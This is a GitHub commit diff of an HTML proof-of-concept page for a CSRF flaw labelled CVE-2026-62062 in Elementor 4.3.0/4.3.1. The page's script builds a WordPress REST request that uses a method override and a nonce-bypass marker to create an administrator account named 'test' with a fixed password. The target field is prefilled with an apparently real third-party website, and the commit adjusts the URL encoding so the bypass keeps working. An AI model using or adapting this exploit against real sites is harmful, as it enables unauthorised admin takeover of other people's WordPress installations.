

Before and after one commit to MIKE2634/elementor-vul, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 91-593 px from the top of the page, without its empty margins (228-1051 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update GitHub Pages

```diff
--- a/index.html
+++ b/index.html
@@ -6,50 +6,43 @@
 <title>Elementor CSRF PoC — CVE-2026-62062</title>
 <style>
   body{font-family:system-ui,sans-serif;max-width:760px;margin:40px auto;padding:0 16px;line-height:1.5}
-  code,input,textarea{font-family:ui-monospace,monospace}
+  input,textarea,code{font-family:ui-monospace,monospace}
   input,textarea{width:100%;box-sizing:border-box;padding:8px;margin:4px 0 16px}
   a.btn{display:inline-block;padding:12px 20px;font-size:16px;color:#fff;background:#b3261e;
         text-decoration:none;border-radius:6px}
   .note{background:#fff4e5;border-left:4px solid #f0a000;padding:10px 14px;border-radius:4px}
-  pre{background:#f4f4f4;padding:12px;border-radius:6px;overflow:auto}
 </style>
 </head>
 <body>
   <h1>Elementor 4.3.0/4.3.1 — CSRF → Admin</h1>
-
   <p class="note">Victim must be logged in as admin on the target <strong>in this same browser</strong> before clicking.</p>
 
-  <p>Target base URL (edit me):</p>
+  <p>Target base URL:</p>
   <input id="target" value="https://mrgm.co.ke">
 
-  <p>Payload URL:</p>
+  <p>Payload URL (note the LITERAL slashes in the marker):</p>
   <textarea id="payload" rows="4" readonly></textarea>
 
-  <p>Then click:</p>
   <a id="fire" class="btn" href="#">Create "test" admin</a>
 
-  <p style="margin-top:28px">Result of the response (if same-origin/CORS allows; otherwise the JSON is just shown in the tab):</p>
-  <pre id="out">—</pre>
-
   <script>
+    // Build manually so the marker keeps literal '/' — do NOT use URLSearchParams here,
+    // it serializes '/' as %2F and REQUEST_URI then no longer contains the substring.
     function build() {
       const base = document.getElementById('target').value.replace(/\/+$/, '');
-      const u = new URL(base + '/wp-json/wp/v2/users');
-      u.searchParams.set('_method', 'POST');            // WP verb override -> a GET nav performs a write
-      u.searchParams.set('username', 'test');
-      u.searchParams.set('email', 'test@example.test');
-      u.searchParams.set('password', 'Mike@17894');
-      u.searchParams.append('roles[]', 'administrator');
-      u.searchParams.set('x', 'elementor/v1/events/');  // pre-fix: substring ANYWHERE in raw URI bypasses nonce
-      return u.toString();
+      return base + '/wp-json/wp/v2/users'
+        + '?_method=POST'
+        + '&username=test'
+        + '&email=test%40example.test'
+        + '&password=Mike%4017894'
+        + '&roles%5B%5D=administrator'
+        + '&x=elementor/v1/events/';           // literal slashes — required
     }
-
     function render() {
       const url = build();
       document.getElementById('payload').value = url;
       document.getElementById('fire').href = url;
     }
-
     document.getElementById('target').addEventListener('input', render);
     render();
   </script>
```
